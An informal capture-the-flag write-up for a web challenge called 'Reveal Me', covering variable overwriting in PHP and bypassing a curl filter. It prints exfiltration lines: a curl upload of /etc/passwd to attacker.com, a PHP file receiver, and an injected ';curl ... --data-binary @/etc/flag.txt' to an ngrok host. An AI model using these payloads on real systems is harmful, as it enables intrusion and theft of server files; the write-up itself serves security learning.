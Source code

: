 # Reveal Me 

- This one had me going on a brain melt for 50 points 

# My part

- `robots.txt` reveals a backup index.php, in there we can see a call to `export` which is a dangerous function that allows local variable hijacking 

- So to exploit we simply pass in `pass=YOUR_PASSWORD` to the burp request and that will overwrite the local `pass` variable 

- Then the website takes us to a place where we can fetch stuff with curl

`file://etc/passwd` is interesting and is also the unintended way of solving it, unfortunately the author have already blocked it 

`http://34.72.61.239/backup/fetch_url.php.bak`, ooh another .bak file 

- This one shows the filter that we're gonna have to bypass, which is the `preg_match` filter and `escapeshellcmd`

- We can get LFI with `--data-binary password=@/etc/passwd http://attacker.com/`(not using `-F` because it is filterd)and a file like this 

```php
<?php
  file_put_contents('output.txt', file_get_contents($_FILES['password']['tmp_name']));
?>
```

- If we do that with ngrok tho we dont get anything, and if we try to request the specific file, i.e `http://attacker.com/getfile.php` the filter blocks the request and renaming the file to `index.php`doesn't do anything either

- Renaming the file to `index.html` does seem to work on a normal user but still getting nothing 

# NoobHacker's part 

- He did some magic and managed to get a working payload which is 

```
;curl http://7485-122-161-50-122.ngrok.io/temp -X POST --data-binary @/etc/flag.txt
``` 

- Make sure to replace the ngrok url with your own

# Flag - {too lazy to get}